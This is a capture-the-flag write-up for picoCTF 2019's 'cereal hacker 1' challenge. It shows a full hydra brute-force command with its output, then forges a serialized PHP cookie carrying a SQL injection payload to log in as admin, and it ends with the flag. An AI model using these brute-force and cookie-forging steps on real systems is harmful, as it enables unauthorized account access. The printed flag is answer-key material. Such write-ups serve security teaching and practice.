

# cereal hacker 1

## Problem

> Login as admin. <https://2019shell1.picoctf.com/problem/49879/> or <http://2019shell1.picoctf.com:49879>

* [Website](https://2019shell1.picoctf.com/problem/49879/)

## Solution

1. Credential bruteforcing: The credentials can be found with `hydra` and the `http[s]-{get|post}-form` module. Module help can be printed with `hydra http-post-form -U`. This article about [using hydra on a web-based login page](https://linuxhint.com/crack-web-based-login-page-with-hydra-in-kali-linux/) was somewhat helpful in this step. Final command:

    ```bash
    hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt -F 2019shell1.picoctf.com -s 49879 http-post-form "/index.php?file=login:user=^USER^&pass=^PASS^:Invalid Login"
    ```

    The `user=` and `pass=` are the post variables found from the debugging console in Firefox. See image below.
    

    Result:

    ```bash
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    [INFORMATION] reading restore file ./hydra.restore
    [WARNING] options after -R are now honored (since v8.6)
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-31 22:10:14
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 170000 login tries (l:17/p:10000), ~10625 tries per task
    [DATA] attacking http-post-form://2019shell1.picoctf.com:49879/index.php?file=login:user=^USER^&pass=^PASS^:Invalid Login
    [STATUS] 4115.00 tries/min, 4115 tries in 00:01h, 165885 to do in 00:41h, 16 active
    [STATUS] 2981.33 tries/min, 8944 tries in 00:03h, 161056 to do in 00:55h, 16 active
    [STATUS] 2691.71 tries/min, 18842 tries in 00:07h, 151158 to do in 00:57h, 16 active
    [49879][http-post-form] host: 2019shell1.picoctf.com   login: guest   password: guest
    [STATUS] attack finished for 2019shell1.picoctf.com (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-31 22:23:17
    ```

2. Login as `guest:guest`.
3. Get cookie
4. URL and Base64Decode:
    * Option 1: Use [URLdecoder](https://www.urldecoder.org/) to decode the cookie twice then use [base64decoder](https://www.base64decode.org/) to decode what you get from [URLdecoder](https://www.urldecoder.org/) to get: `O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}`
    * Option 2: Use [CyberChef](https://gchq.github.io/CyberChef/) with this recipe: `[{"op":"URL Decode","args":[]},{"op":"URL Decode","args":[]},{"op":"From Base64","args":["A-Za-z0-9+/=",true]}]`.
5. Change that result to `O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:11:"' or '1'='1";}` (`s:11` and not `s:5` because the number corresponds to the length of the string which is PHP standard)
6. Encoding
    * Option 1: Encode using [base64encode](https://www.base64encode.org/) to get `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJzEnPScxIjt9`. If there are equal signs after the cookie is base64 encoded then run the base64 encoded string through [URLencoder](https://www.urlencoder.org/) twice.
    * Option 2: Use [CyberChef](https://gchq.github.io/CyberChef/) with this recipe: `[{"op":"To Base64","args":["A-Za-z0-9+/="]},{"op":"URL Encode","args":[true]},{"op":"URL Encode","args":[true]}]`.
7. Set cookie to new cookie
8. Change URL to `file=admin`
9. You got the flag

### Flag

`picoCTF{0d040919669d2bc1501212f90450eb4c}`
